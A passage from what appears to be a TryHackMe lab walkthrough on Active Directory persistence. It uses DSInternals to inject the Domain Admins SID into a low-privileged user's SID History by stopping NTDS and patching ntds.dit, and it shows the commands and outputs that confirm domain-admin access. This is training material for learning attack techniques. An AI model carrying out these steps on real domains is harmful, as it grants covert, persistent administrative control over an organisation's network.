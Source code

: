 This confirms that our user does not currently have any SID History set.  Let's get the SID of the Domain Admins group since this is the group we  want to add to our SID History:

- **Terminal**      

```powershell
PS C:\Users\Administrator.ZA> Get-ADGroup "Domain Admins"

DistinguishedName : CN=Domain Admins,CN=Users,DC=za,DC=tryhackme,DC=loc
GroupCategory     : Security
GroupScope        : Global
Name              : Domain Admins
ObjectClass       : group
ObjectGUID        : 3a8e1409-c578-45d1-9bb7-e15138f1a922
SamAccountName    : Domain Admins
SID               : S-1-5-21-3885271727-2693558621-2658995185-512
```

We could use something like Mimikatz to add SID history. However, the  latest version of Mimikatz has a flaw that does not allow it to patch  LSASS to update SID history. Hence we need to use something else. In  this case, we will use the [DSInternals](https://github.com/MichaelGrafnetter/DSInternals) tools to directly patch the ntds.dit file, the AD database where all information is stored:

- **Terminal**      

```powershell
PS C:\Users\Administrator.ZA>Stop-Service -Name ntds -force 
PS C:\Users\Administrator.ZA> Add-ADDBSidHistory -SamAccountName 'username of our low-priveleged AD account' -SidHistory 'SID to add to SID History' -DatabasePath C:\Windows\NTDS\ntds.dit 
PS C:\Users\Administrator.ZA>Start-Service -Name ntds  
```

The NTDS database is locked when the NTDS service is running. In order to  patch our SID history, we must first stop the service. **You must restart the NTDS service after the patch, otherwise, authentication for the entire network will not work anymore.**

After these steps have been performed, let's SSH into THMWRK1 with our  low-privileged credentials and verify that the SID history was added and that we now have Domain Admin privileges:

- **Terminal**      

```powershell
 za\aaron.jones@THMWRK1 C:\Users\aaron.jones>powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved. 

PS C:\Users\aaron.jones> Get-ADUser aaron.jones -Properties sidhistory 

DistinguishedName : CN=aaron.jones,OU=Consulting,OU=People,DC=za,DC=tryhackme,DC=loc 
Enabled : True 
GivenName : Aaron 
Name : aaron.jones 
ObjectClass : user 
ObjectGUID : 7d4c08e5-05b6-45c4-920d-2a6dbba4ca22 
SamAccountName : aaron.jones 
SIDHistory : {S-1-5-21-3885271727-2693558621-2658995185-512} 
Surname : Jones 
UserPrincipalName : 

PS C:\Users\aaron.jones> dir \\thmdc.za.tryhackme.loc\c$ 

Directory: \\thmdc.za.tryhackme.loc\c$ 

Mode LastWriteTime Length Name 
---- ------------- ------ ---- 
d----- 9/15/2018 8:19 AM PerfLogs 
d-r--- 5/11/2022 10:32 AM Program Files 
d----- 3/21/2020 8:28 PM Program Files (x86) 
d----- 4/25/2022 7:13 PM tmp 
```